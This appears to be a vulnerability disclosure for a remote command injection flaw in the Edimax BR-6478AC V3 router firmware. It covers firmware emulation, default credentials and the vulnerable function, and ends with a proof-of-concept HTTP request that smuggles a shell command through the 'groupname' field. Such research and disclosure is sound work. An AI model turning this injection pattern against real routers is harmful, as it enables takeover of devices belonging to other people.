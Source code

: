 
# EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_00461184 function and groupname in /bin/boa


## Firmware
**brand**:edimax   

**product**:AC1200 Wave 2 Dual-Band Gigabit Router   

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](images/simulate.png)

using ghidra we can know the action is formDiskCreateGroup
![alt text](images/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/storage_creategroup.htm:
![alt text](images/url.png)

## analyze
Using ghidra we can know that the post parameter "groupname" will be snprintf as the first input parameter which will be executed
![alt text](images/analyze.png)
The details of the function as follows:

**addr**:00461378  
**function**: FUN_00461184
**parameter**:groupname


# poc
Burp Suite change the packet as follows
```
POST /boafrm/formDiskCreateGroup HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 109

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/storage_creategroup.htm

Cookie: webuicookie=16041635011804289383

Upgrade-Insecure-Requests: 1



Access=r-w&CreateGroup=CreateGroup&submit-url=%2administration.htm&groupname=s2"\necho 1 > /tmp/poc_rce.txt "
```
the result of POC is as follows, you can find the /tmp/poc_rce.txt was created after poc
![alt text](images/poc.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3